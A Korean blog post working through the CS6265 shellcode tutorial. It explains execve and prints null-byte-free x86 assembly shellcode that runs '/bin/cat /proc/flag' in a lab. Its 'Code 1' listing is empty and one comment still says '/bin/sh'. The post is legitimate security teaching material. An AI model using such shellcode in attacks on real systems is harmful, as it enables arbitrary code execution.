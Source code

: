 ```yaml
---
layout: post
title:  "Shellcode란?"
date:   2020-12-30 20:19:35 +0900
categories: [ComputerArchitecture]
---
```


# Shellcode란?
## Shellcode 튜토리얼
- 참고링크: [CS6265 튜토리얼](https://tc.gts3.org/cs6265/2020/tut/tut02-warmup2.html#shellcode)  
- 목표: interactive shell 실행
Shellcode란 기본적으로 시스템 해킹, [exploitation(취약점 공격)](https://ko.wikipedia.org/wiki/%EC%B7%A8%EC%95%BD%EC%A0%90_%EA%B3%B5%EA%B2%A9)을 위한 generic [payload](https://ko.wikipedia.org/wiki/%ED%8E%98%EC%9D%B4%EB%A1%9C%EB%93%9C_(%EC%BB%B4%ED%93%A8%ED%8C%85))이다. 

위 링크의 CS6265 튜토리얼에서는 우선 execve를 사용해서 현재 실행중인 프로세스를 바꿔서 정해진 flag를 출력하도록 하고 있다. 

## execve란

`int execve(const char *filename, char *const argv[], char *const envp[]);`

이 함수는 현재 실행중인 프로세스의 실행코드를 실행가능한 파일인 filename로 바꾼다. filename 프로그램의 코드를 메모리에 새로 load함으로써, 현재 실행 중인 프로세스의 기능이 filename의 것으로 완전히 바뀐다. 그래서 기존 프로세스는 그대로 두면서 새로운 프로세스를 만드는 fork()와는 구별된다. 

위의 argv는 argument vector, envp는 environment이다. argument가 배열 형태로 따라오고, 또 환경변수로도 따라온다. 

## shellcode에서 execve

아래에 코드 1과 코드 2가 있다. 코드 1을 수정해서 flag를 출력할 수 있도록 (코드 2로) 바꾸어야 한다. 그 과정을 보면, 우선 `#define STRING`을 통해서 문자열을 하나 만든다. 그 문자열은 맨 아래의 `.string STRING`에 있다. 이게 특이한 부분인데 보통 실행코드가 위치해야 하는 어셈블리의 부분에 문자열이 있게 된다.  
STRING을 코드 2와 같이 고치면 어떻게 될까? 다른 부분도 고쳐야 하기는 하지만, 결론을 말하면 `/bin/sh`를 실행하던 코드가 `/bin/cat`을 실행하고, 그 `/bin/cat`의 argument로 `/proc/flag`를 넘겨줘서 flag가 출력되게 된다. 

- 코드 1의 개요도
```
 +-------------+
 v             |
 [/bin/cat][0][ptr ][NULL]
               ^     ^     
               |     +-- envp
               +-- argv

```

- 코드 2의 개요도
```
 +----------------------------+
 |             +--------------=-----+
 v             v              |     |
 [/bin/cat][0][/proc/flag][0][ptr1][ptr2][NULL]
                              ^           ^
                              |           +-- envp
                              +-- argv

```

- 코드 1
    ```

    ```

- 코드 2
    ```
    #include <sys/syscall.h>

    #define STRING  "/bin/catN/proc/flag"
    #define STRLEN1 8
    #define STRLEN2 19
    #define ARGV    (STRLEN2+1)
    #define ENVP    (ARGV+8)

    .intel_syntax noprefix
    .text
        
    .globl main
    .type  main, @function

    main:
    jmp     calladdr

    popladdr:
    pop    esi                    /* esi points to STRING */
    mov    edi, esi
    add    edi, STRLEN1+1

    mov    [ARGV+esi],esi         /* set up argv[0] pointer to pathname */
    mov    [ARGV+4+esi], edi

    xor    eax,eax                /* get a 32-bit zero value */
    mov    [STRLEN1 + esi],al      /* null-terminate our string */
    mov    [STRLEN2 + esi],al      /* null-terminate our string */
    mov    [ENVP + esi], eax      /* set up null envp */
    
    mov    al,SYS_execve          /* syscall number */
    mov    ebx,esi                /* arg 1: string pathname */
    lea    ecx,[ARGV + esi]       /* arg 2: argv */
    lea    edx,[ENVP + esi]       /* arg 3: envp */
    int    0x80                   /* execve("/bin/sh", ["/bin/sh", NULL], [NULL]) */
    
    xor    ebx,ebx                /* arg 1: 0 */
    mov    eax,ebx
    inc    eax                    /* exit(0) */
    /* mov+inc to avoid null byte */
    int    0x80                   /* invoke syscall */

    calladdr:
    call    popladdr
    .string STRING

    ```

